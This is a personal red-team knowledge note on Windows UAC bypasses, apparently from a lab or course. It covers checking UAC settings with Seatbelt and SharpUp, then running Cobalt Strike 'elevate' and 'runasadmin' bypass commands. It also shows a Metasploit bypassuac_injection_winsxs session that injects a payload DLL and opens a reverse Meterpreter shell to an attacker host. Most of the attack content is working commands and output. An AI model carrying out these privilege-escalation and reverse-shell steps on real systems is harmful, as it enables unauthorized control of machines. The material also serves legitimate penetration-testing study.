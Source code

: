 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[UAC Bypasses]]  
___

## Description:  

A UAC bypass is a technique by which an application can go from **Medium** to **High Integrity** without prompting for consent (User has to be a local Administrator).

By default, applications will run in a Medium Integrity context even if the user is a local administrator.

Some of Microsoft's own trusted, signed applications can "auto-elevate" without UAC.

The default configuration for UAC is **Prompt for consent for non-Windows binaries**, but can also have different settings such as **Prompt for credentials**, **Prompt for consent** and **Elevate without prompting**.

[[Seatbelt]] can be used to query the configuration applied to a machine.

```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe uac

====== UAC ======

ConsentPromptBehaviorAdmin     : 5 - PromptForNonWindowsBinaries
EnableLUA (Is UAC enabled?)    : 1
```

Use [SharpUp](https://github.com/GhostPack/SharpUp) to check integrity level and if UAC can be bypassed.

```
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.
```

### In CobaltStrike

Use the `elevate` command in CS to bypass (best)

```
help elevate
 

elevate [exploit] [listener]

#To see exploits
elevate

elevate uac-token-duplication tcp-local
```

You can also use `runasadmin` command in CS (not as good)
```
help runasadmin

runasadmin [exploit] [command] [args]

#To see exploits
runasadmin

# go to attacks, web drive-by, scripted web delivery (S), select beacon_bind_tcp as # listner
runasadmin uac-cmstplua <insert_beacon_command_from_comment_above>

connect localhost 1337

# to get more privs from here
elevate svc-exe tcp-local

```

### In Metasploit

```
msf5 > use exploit/windows/local/bypassuac_injection_winsxs

msf5 exploit(windows/local/bypassuac_injection_winsxs) > set SESSION 10
SESSION => 10
msf5 exploit(windows/local/bypassuac_injection_winsxs) > exploit
[*] Started reverse TCP handler on 10.11.0.4:4444 
[+] Windows 10 (Build 16299). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating temporary folders...
[*] Uploading the Payload DLL to the filesystem...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[+] Successfully injected payload in to process: 5800
[*] Sending stage (179779 bytes) to 10.11.0.22
[*] Meterpreter session 11 opened (10.11.0.4:4444 -> 10.11.0.22:53870)
meterpreter >
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (10:47 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
